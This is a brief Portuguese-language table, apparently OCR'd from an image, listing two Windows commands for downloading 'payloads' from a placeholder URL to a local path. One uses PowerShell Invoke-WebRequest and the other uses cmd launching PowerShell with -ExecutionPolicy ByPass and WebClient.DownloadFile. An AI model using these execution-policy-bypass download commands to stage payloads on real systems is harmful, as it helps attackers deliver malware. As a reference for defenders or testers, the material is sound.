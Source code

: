 | COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| powershell Invoke-webrequest -URI <URL> -outfile <file_location_on_system> | Comando utilizado para download de cargas de uma determinada URL e indicação de path |
| cmd[.]exe /c powershell[.]exe -ExecutionPolicy ByPass -WindowStyle Normal (New-Object System[.]Net[.]WebClient).DownloadFile('<URL>', '<LOCAL A SER SALVO>') | omando utilizado para baixar um arquivo via CMD e salvá-lo em um local específico no sistema | 
